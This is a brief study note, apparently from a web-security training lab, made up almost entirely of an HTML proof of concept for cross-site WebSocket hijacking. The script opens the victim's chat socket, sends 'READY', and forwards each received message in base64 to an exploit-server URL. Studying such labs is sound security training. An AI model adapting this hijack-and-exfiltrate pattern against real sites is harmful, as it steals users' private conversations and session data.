

# Websockets

Created: May 13, 2025 1:36 PM




XSS via WebSocket


```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      let newWebSocket = new WebSocket("wss://0a44003a037e7ad3806303420079008f.web-security-academy.net/chat");

         newWebSocket.onopen = function (evt) {
             newWebSocket.send("READY");
         }

         newWebSocket.onmessage = function (evt) {
             var message = evt.data;
             fetch("https://exploit-0a5300d3033a7a5880eb02d5010c0029.exploit-server.net/exploit?message=" + 
                btoa(message)
             )
         }
    </script>
  </body>
</html
```


